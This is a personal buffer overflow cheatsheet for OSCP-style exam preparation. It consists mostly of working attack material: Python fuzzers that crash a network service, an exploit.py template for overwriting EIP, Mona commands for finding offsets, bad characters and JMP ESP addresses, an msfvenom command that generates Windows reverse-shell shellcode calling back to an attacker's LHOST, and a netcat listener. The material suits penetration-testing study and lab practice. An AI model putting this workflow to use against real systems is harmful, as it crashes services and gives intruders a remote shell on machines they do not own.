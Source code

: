 ```yaml
---
layout: post
title: Buffer Overflow personnal cheatsheet
tags: [OSCP, Buffer Overflow, Cheatsheet]
description: "Buffer Overflow personnal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash

```
#fuzzer.py

import socket, time, sys

ip = "IP"
port = PORT
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```
#fuzzer2.py

import socket

target_ip = "IP"
target_port = PORT

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip,target_port))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 

  ```
  #exploit.py
  
  import socket
  
  ip = "IP"
  port = PORT
  
  prefix = ""
  offset = 0
  overflow = "A" * offset
  retn = ""
  padding = ""
  payload = ""
  postfix = ""
  
  buffer = prefix + overflow + retn + padding + payload + postfix
  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  
  try:
      s.connect((ip, port))
      print("Sending evil buffer...")
      s.send(buffer + "\r\n")
      print("Done!")
  except:
      print("Could not connect.")
  ```

  

- !mona findmsp -distance SIZE -> SIZE same as pattern

- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)

- modify retn variable by "BBBB", remove payload

- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

or

- !mona modules
- !mona find -s "\xff\xe4" -m DLL

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234

